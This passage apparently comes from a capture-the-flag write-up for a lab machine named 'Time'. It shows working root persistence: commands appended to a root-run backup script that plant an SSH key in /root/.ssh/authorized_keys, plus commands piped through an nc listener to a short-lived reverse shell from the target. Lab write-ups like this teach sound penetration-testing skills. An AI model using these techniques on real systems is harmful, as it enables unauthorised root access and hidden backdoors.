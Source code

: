 ```

pericles@time:/var/www$ find html/ -name exploited.txt

```

It returned nothing. I modified the payload slightly to `id > /tmp/exploited.txt`. On re-run, that worked:

```

pericles@time:/var/www$ cat /tmp/exploited.txt 
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

```

So why couldn’t I write to the web root? Well, permissions:

```

pericles@time:/var/www$ find html/ -writable
pericles@time:/var/www$ ls -l               
total 4
dr-xr-xr-x 7 pericles pericles 4096 Oct 23 06:44 html

```

There are no folders in `html` that are writable by the pericles user (which is where the RCE happens).

### Utilizing Short-Lived Shells

The shell that came back dies in about 10 seconds, which is enough time to grab `root.txt`. But of course I wanted a stable shell. The easy way to do this is just to have script write my SSH public key into `authorized_keys`:

```

pericles@time:/var/www/html$ echo -e '\nmkdir -p /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys'  >> /usr/bin/timer_backup.sh

```

This will create the directory `/root/.ssh` if it doesn’t exist, and then write my [tiny ed25519 public key](https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54) into the `authorized_keys` file.

Still, cases come up where a short lived shell is all you can get. It’s interesting to see how to script commands to run on the shell. I’ll just `echo` them into the `nc` listener:

```

oxdf@parrot$ echo 'mkdir -p /root/.ssh && echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58Q
vP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys' | sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58360
bash: cannot set terminal process group (67254): Inappropriate ioctl for device
bash: no job control in this shell
<U19G3d nobody@nothing" > /root/.ssh/authorized_keys
root@time:/# 
^C

```
